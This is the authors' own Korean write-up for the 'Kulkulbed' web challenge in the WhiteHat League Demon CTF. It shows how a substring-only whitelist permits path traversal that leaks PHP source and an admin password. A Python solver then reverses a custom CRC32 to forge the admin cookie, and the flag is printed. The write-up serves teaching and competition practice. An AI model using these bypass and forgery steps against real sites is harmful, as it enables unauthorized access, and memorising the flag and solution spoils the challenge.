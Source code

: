 # WhiteHat League 1 - Demon CTF [![Awesome](https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg)](https://github.com/sindresorhus/awesome)
Kulkulbed Write-Up - 출제자 풀이
-----------------------------------

## Introduce
* Author : 박광호, 김형찬 ([debukuk](http://debu.kr/), [zer0day](http:/zer0day.tistory.com))
* Field  : Web Hacking & Reverse Engineering
* E-Mail : debukuk154@gmail.com, kozistr@gmail.com
* Date   : 2017-09-12

## Intention
* LFI 필터링을 우회할 수 있는가?
* 웹 소스코드를 이해할 수 있는가?
* 코드순서에 따른 공격이 가능한가?
* Reverse CRC32 연산을 할 수 있는가?
* 플래그 형식은 **Demon{...}**

## Solve
* 로그인페이지와 로그아웃페이지가 있다.

위와 같은 코드가 있다.<br><br>
이제 위 코드를 확인함으로써 php 소스코드가 leak됨을 알 수 있는데 그 말은 즉, LFI 취약점이 발생한다는 것이다.<br>

index.php?page=index 에 접근하여 소스를 보면 

> `if (stripos($_GET['page'], $white_list) !== false)`

이런 코드로 whitelist에 있는 파일명으로 접근했는지 확인하는데 

존재하는지만 확인하기 때문에 index/../contents 이런식으로 접근할 수 있다.<br>

>>>>>>>>>>> 예압~ 바-통 트치 9reat

또 ?page=index/../functions 에 들가서 gen_hash_func 나 등등 조흔 인포메이션을 얻을 수 있당

contents.php 를 보게되면 아래오 같은 코-드를 볼 수 있는디
```php
if ($_POST['username'] && $_POST['password'] && !$_COOKIE['HACKINGCAMP']) {
   gen_hash_table();
   $prefix = base64_decode('czNzczFvbl9jMDBraWVf');
   $username = account($_POST);
   $f = fopen(dirname(__FILE__).'/account/'.$username.'.dat', 'r');
   $password = explode('/', fgets($f));
   $proofhash = $username == 'admin' ? $_COOKIE['HACKINGCAMP'] : $password[1];
   $hash = $salt.'|'.$username.':'.$password[0];
   if ($username == 'admin' && $_POST['password'] == $password[0] && gen_hash($hash) == $proofhash) {
      echo $flag;
   }else if ($username == 'guest' && $_POST['password'] == $password[0]) {
      echo '<h3>Hello '.$username.'!</h3>';
      setcookie("HACKINGCAMP", (substr(md5($prefix.gen_hash($hash)), 0, 0x18).gen_hash($hash)));
   }else die('<script type="text/javascript">alert("login failed..");location.href="./";</script>');
   echo '<p><img src="./img/'.($username == 'admin' ? 'admin.png' : 'guest.jpg').'" /></p>';
   fclose($f);
}  
```

```php
function gen_hash_table(){
   global $table;
   
   $poly = 0xdeadbeef;
   for ($i = 0x0; $i < 0x100; $i++) {
      $temp = $i;
      for ($j = 0; $j < 8; $j++) {
         if ($temp & 1)
            $temp = ($temp >> 1) ^ $poly;
         else
            $temp >>= 1;
      }
      $table[$i] = $temp;
   }
}
 
function gen_hash($string){
   global $table;
   $temp = 0;
   for ($i = 0; $i < strlen($string); $i++) 
      $temp = $table[ord($string[$i]) ^ ($temp & 0xff)] ^ ($temp >> 8);
   return dechex($temp);
}
```

2번째 줄은 보면 `gen_hash_table()` 인데 아래 보면 알겠지만 **crc32 알고뤼듬 table** 을 생성하는 거시다.

또 */account/admin.dat* 을 통해서 **1n5cun710us** 이 admin 비번인것도 알아내었소이다.

로-쥑은 정리하면 아래와 같다.

> CRC32($salt|guest:guest) == 뭐시기(주어짐)
>
> CRC32($salt|admin:1n5cun710us) == 뭘까용ㅎㅎ

빼애액! $salt 는 당연히 모로는디 고럼 어캐 저걸 구하지..? 알아도 모를거 같다...

하시는 분은 여기 ![띵글](http://anch0vy.tistory.com/60) 이 있으니 참고 해 보길 바란다 ㅎㅎ
~~(**절대 귀찮아서 그러는거 아님**)~~

#### 고럼 바로 **기술** 들어 갑니다~

### Solver
```python
from struct import *


# poly = 0xdeadbeef
table = (0, 3955309778, 1792607355, 2165848233, 3585214710, 1047737380, 3211463821, 1420439647, 373255219, 4261302497,
         2095474760, 2535937178, 3280823493, 676091927, 2840879294, 1117084780, 746510438, 3351241908, 1185405981,
         2909200591, 4190949520, 302902338, 2467681515, 2027219001, 977384533, 3514861703, 1352183854, 3143208188,
         4025728163, 70418545, 2234169560, 1860928522, 1493020876, 3007089694, 841266359, 3655698533, 2370811962,
         1720616168, 3885415489, 207061139, 1321393407, 2768494637, 605804676, 3487229014, 2607862793, 1890707675,
         4054438002, 443083936, 1954769066, 2671924344, 509242577, 4120596483, 2704367708, 1257266318, 3421004839,
         539580661, 1656489113, 2306685003, 140837090, 3819191344, 3071151215, 1557082301, 3721857044, 907424966,
         2986041752, 1513774410, 3676464611, 820205873, 1682532718, 2408076732, 244346133, 3847311815, 2814643627,
         1275408761, 3441232336, 651965698, 1920337245, 2578921871, 414122278, 4084088308, 2642786814, 1984202028,
         4150050181, 480084311, 1211609352, 2750844378, 586069363, 3375335841, 2344277453, 1618733343, 3781415350,
         178449764, 1577639227, 3049906665, 886167872, 3742426514, 3909538132, 46656902, 2212484399, 1746856445,
         1018485154, 3614827888, 1450040793, 3182223627, 4281974119, 351830453, 2514532636, 2116126158, 713799057,
         3242887491, 1079161322, 2878573880, 3312978226, 783889888, 2946567497, 1147154843, 281674180, 4211817750,
         2048067007, 2446473581, 3544671489, 948328915, 3114164602, 1381981608, 116747767, 3979628837, 1814849932,
         2280478046, 3735928559, 896303677, 3027548820, 1605731910, 186627609, 3772680907, 1640411746, 2315751088,
         3365065436, 592702990, 2722879143, 1233840757, 488692266, 4141999864, 2012864081, 2620973699, 4073940617,
         420633179, 2550817522, 1942707744, 660696703, 3433058989, 1303931396, 2792969942, 3840674490, 254621288,
         2385841857, 1710502419, 828244556, 3667869342, 1535575607, 2957392613, 2253393443, 1838232305, 3968404056,
         122173066, 1407321813, 3089316359, 960168622, 3539615356, 2423218704, 2075025090, 4206257771, 293034681,
         1172138726, 2921092660, 788819613, 3301265999, 2855196229, 1106242199, 3237466686, 725020396, 2140987059,
         2489180769, 356899528, 4270122522, 3155278454, 1473283748, 3603480077, 1024033503, 1772335744, 2187497042,
         58373883, 3904604713, 1867964279, 2224546725, 93313804, 3998148574, 3135559553, 1361439571, 3493712890,
         1006432040, 2036970308, 2460520342, 330348351, 4168190957, 2900081586, 1192920928, 3322068937, 767787803,
         1126696721, 2833857475, 703660906, 3257941944, 2526679015, 2103128885, 4232252316, 394409806, 1427598114,
         3201718256, 1070493529, 3557774219, 2158322644, 1801740038, 3934021551, 29186941, 933982139, 3697955689,
         1567779776, 3065206546, 3793315661, 165174175, 2294309686, 1661034468, 563348360, 3394584410, 1263339507,
         2693544737, 4096134014, 535246764, 2667515653, 1967010775, 466991069, 4027878159, 1896657830, 2597162868,
         3462905643, 631669753, 2763963216, 1333757826, 233495534, 3861636924, 1731452821, 2364728135, 3629699864,
         865726410, 2994853731, 1497426865)

# table << 56
untable = (0, 235, 106, 129, 213, 62, 191, 84, 22, 253, 124, 151, 195, 40, 169, 66, 44, 199, 70, 173, 249, 18, 147, 120, 58,
    209, 80, 187, 239, 4, 133, 110, 88, 179, 50, 217, 141, 102, 231, 12, 78, 165, 36, 207, 155, 112, 241, 26, 116, 159,
    30, 245, 161, 74, 203, 32, 98, 137, 8, 227, 183, 92, 221, 54, 177, 90, 219, 48, 100, 143, 14, 229, 167, 76, 205, 38,
    114, 153, 24, 243, 157, 118, 247, 28, 72, 163, 34, 201, 139, 96, 225, 10, 94, 181, 52, 223, 233, 2, 131, 104, 60,
    215, 86, 189, 255, 20, 149, 126, 42, 193, 64, 171, 197, 46, 175, 68, 16, 251, 122, 145, 211, 56, 185, 82, 6, 237,
    108, 135, 222, 53, 180, 95, 11, 224, 97, 138, 200, 35, 162, 73, 29, 246, 119, 156, 242, 25, 152, 115, 39, 204, 77,
    166, 228, 15, 142, 101, 49, 218, 91, 176, 134, 109, 236, 7, 83, 184, 57, 210, 144, 123, 250, 17, 69, 174, 47, 196,
    170, 65, 192, 43, 127, 148, 21, 254, 188, 87, 214, 61, 105, 130, 3, 232, 111, 132, 5, 238, 186, 81, 208, 59, 121,
    146, 19, 248, 172, 71, 198, 45, 67, 168, 41, 194, 150, 125, 252, 23, 85, 190, 63, 212, 128, 107, 234, 1, 55, 220,
    93, 182, 226, 9, 136, 99, 33, 202, 75, 160, 244, 31, 158, 117, 27, 240, 113, 154, 206, 37, 164, 79, 13, 230, 103,
    140, 216, 51, 178, 89)


def crc(c, crc_):
    return table[(crc_ & 0xff) ^ c] ^ (crc_ >> 8)


def uncrc(c, crc_):
    i = untable.index(crc_ >> 24)
    crc_ ^= table[i]
    crc_ = (crc_ << 8) & 0xffffffff
    crc_ += i ^ c
    return crc_


salt = 'debukuk_1s_hands0me'
userpw = "guest" + ":" + "guest"
auserpw = "admin" + ":" + "1n5cun710us"
h = salt + '|' + userpw

un = 0
for x in h:
    un = crc(ord(x), un)

print("[*] crc(salt|guest:guest) is            : " + hex(un))

for x in userpw[::-1]:
    un = uncrc(ord(x), un)

print("[*] crc(salt|) is                       : %#x" % un)

for x in auserpw:
    un = crc(ord(x), un)

print("[+] crc(salt|admin:1n5cun710us) is      : %#x" % un)

# assert # for checking
un = 0
for x in "debukuk_1s_hands0me|admin:1n5cun710us":
    un = crc(ord(x), un)

print("[Assert] crc(salt|admin:1n5cun710us) is : %#x" % un)

```

요러면 admin 계정에 필요한 crc 값을 구할 수 있땅 :)

>>>>>>>>>>>> 다쉬 바통 트-치

이제 플래그를 얻으면 되는데 
> `if ($_POST['username'] && $_POST['password'] && !$_COOKIE['_token']) {`
 
이 조건문을 우회할 방법은 없으므로

(왜냐하면 _token 쿠키가 없어야하는데 조건문안에서는 username이 admin일 경우 _token 쿠키를 사용하여 password[1]을 대체하기 때문입니다.)<br>
<br>
> `if ($_COOKIE['_token']) {`

이 조건문을 통해서 플래그를 얻어야한다.<br>
그냥 단순히 쿠키에 얻은 해쉬를 넣으면 플래그를 얻을 수 있다.<br>
<br>
Flag : Demon{im_n0t_p4ngh0_1m_hyun9ch4nz_L0L}<br>